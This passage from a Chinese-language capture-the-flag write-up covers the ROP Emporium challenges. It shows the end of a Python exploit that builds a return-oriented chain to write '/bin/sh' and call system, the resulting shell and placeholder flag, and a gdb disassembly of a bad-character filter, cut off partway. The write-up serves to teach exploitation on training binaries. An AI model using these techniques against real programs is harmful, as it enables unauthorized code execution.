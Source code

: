 ```python
payload += "/sh\x00"
payload += l32(mov_edi_ebp)
payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./write432')
io.writeline(payload)
io.interact()
```
```
$ python2 run.py 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA(/binp,/shp0BBBB(�
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
> cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```

#### write4
64 位程序就可以一次性写入了。


#### badchars32
在这个挑战中，我们依然要将 `/bin/sh` 写入到进程内存中，但这一次程序在读取输入时会对敏感字符进行检查，查看函数 `checkBadchars()`：
```
gdb-peda$ disassemble checkBadchars
Dump of assembler code for function checkBadchars:
   0x08048801 <+0>:     push   ebp
   0x08048802 <+1>:     mov    ebp,esp
   0x08048804 <+3>:     sub    esp,0x10
   0x08048807 <+6>:     mov    BYTE PTR [ebp-0x10],0x62
   0x0804880b <+10>:    mov    BYTE PTR [ebp-0xf],0x69
   0x0804880f <+14>:    mov    BYTE PTR [ebp-0xe],0x63
   0x08048813 <+18>:    mov    BYTE PTR [ebp-0xd],0x2f
   0x08048817 <+22>:    mov    BYTE PTR [ebp-0xc],0x20
   0x0804881b <+26>:    mov    BYTE PTR [ebp-0xb],0x66
   0x0804881f <+30>:    mov    BYTE PTR [ebp-0xa],0x6e
   0x08048823 <+34>:    mov    BYTE PTR [ebp-0x9],0x73
   0x08048827 <+38>:    mov    DWORD PTR [ebp-0x4],0x0
   0x0804882e <+45>:    mov    DWORD PTR [ebp-0x8],0x0
   0x08048835 <+52>:    mov    DWORD PTR [ebp-0x4],0x0
   0x0804883c <+59>:    jmp    0x804887c <checkBadchars+123>
   0x0804883e <+61>:    mov    DWORD PTR [ebp-0x8],0x0
   0x08048845 <+68>:    jmp    0x8048872 <checkBadchars+113>
   0x08048847 <+70>:    mov    edx,DWORD PTR [ebp+0x8]
   0x0804884a <+73>:    mov    eax,DWORD PTR [ebp-0x4]
   0x0804884d <+76>:    add    eax,edx
   0x0804884f <+78>:    movzx  edx,BYTE PTR [eax]
   0x08048852 <+81>:    lea    ecx,[ebp-0x10]
   0x08048855 <+84>:    mov    eax,DWORD PTR [ebp-0x8]
   0x08048858 <+87>:    add    eax,ecx
   0x0804885a <+89>:    movzx  eax,BYTE PTR [eax]
   0x0804885d <+92>:    cmp    dl,al
   0x0804885f <+94>:    jne    0x804886e <checkBadchars+109>
   0x08048861 <+96>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048864 <+99>:    mov    eax,DWORD PTR [ebp-0x4]
   0x08048867 <+102>:   add    eax,edx
   0x08048869 <+104>:   mov    BYTE PTR [eax],0xeb
   0x0804886c <+107>:   jmp    0x8048878 <checkBadchars+119>
   0x0804886e <+109>:   add    DWORD PTR [ebp-0x8],0x1
   0x08048872 <+113>:   cmp    DWORD PTR [ebp-0x8],0x7
```